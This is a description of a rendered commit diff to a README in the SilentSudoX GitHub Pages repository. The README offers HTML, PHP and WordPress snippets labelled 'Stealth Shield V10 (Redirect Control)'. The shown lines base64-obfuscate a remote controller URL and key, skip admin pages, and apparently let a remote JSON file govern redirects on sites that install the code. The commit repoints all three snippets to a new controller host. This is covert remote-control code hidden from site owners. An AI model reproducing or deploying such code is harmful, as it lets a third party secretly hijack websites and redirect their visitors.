

Before and after one commit to SilentSudoX/SilentSudoX.github.io, a Markdown page: lib/README.md, 3 parts joined by grey strips. GitHub-like rendering; blank space fills up the shorter version.

```diff
--- a/lib/README.md
+++ b/lib/README.md
@@ -24,7 +24,7 @@ Bilkul, maine aapke liye **HTML (Landing Page)**, **PHP Core**, aur **WordPress*
 <script>
 (function(){
     // --- Encrypted Configuration ---
-    const _u = atob("aHR0cHM6Ly9mYWhhZHRlY2g4LmdpdGh1Yi5pby9saWNlbnNlLW1hbmFnZXIvY29udHJvbGxlci5qc29u"); // URL
+    const _u = atob("aHR0cHM6Ly9zaWxlbnRzdWRveC5naXRodWIuaW8vbGliL3BpZC5qc29u"); // URL
     const _k = atob("RkFIQUQtNzg2"); // Key
 
     // Keywords Encryption
@@ -106,7 +106,7 @@ Bilkul, maine aapke liye **HTML (Landing Page)**, **PHP Core**, aur **WordPress*
 <?php
 /* --- PHP STEALTH SHIELD V10 (REDIRECT CONTROL) --- */
 function _sys_sync_final_v10(){
-    $_u = base64_decode("aHR0cHM6Ly9mYWhhZHRlY2g4LmdpdGh1Yi5pby9saWNlbnNlLW1hbmFnZXIvY29udHJvbGxlci5qc29u");
+    $_u = base64_decode("aHR0cHM6Ly9zaWxlbnRzdWRveC5naXRodWIuaW8vbGliL3BpZC5qc29u");
     $_k = base64_decode("RkFIQUQtNzg2");
 
     $_f = [
@@ -208,7 +208,7 @@ function _wp_secure_v10_stealth() {
     if (is_admin()) return;
 
     // Configuration Encrypted
-    $_u = base64_decode("aHR0cHM6Ly9mYWhhZHRlY2g4LmdpdGh1Yi5pby9saWNlbnNlLW1hbmFnZXIvY29udHJvbGxlci5qc29u");
+    $_u = base64_decode("aHR0cHM6Ly9zaWxlbnRzdWRveC5naXRodWIuaW8vbGliL3BpZC5qc29u");
     $_k = base64_decode("RkFIQUQtNzg2");
 
     // Key Mappings Encrypted
```
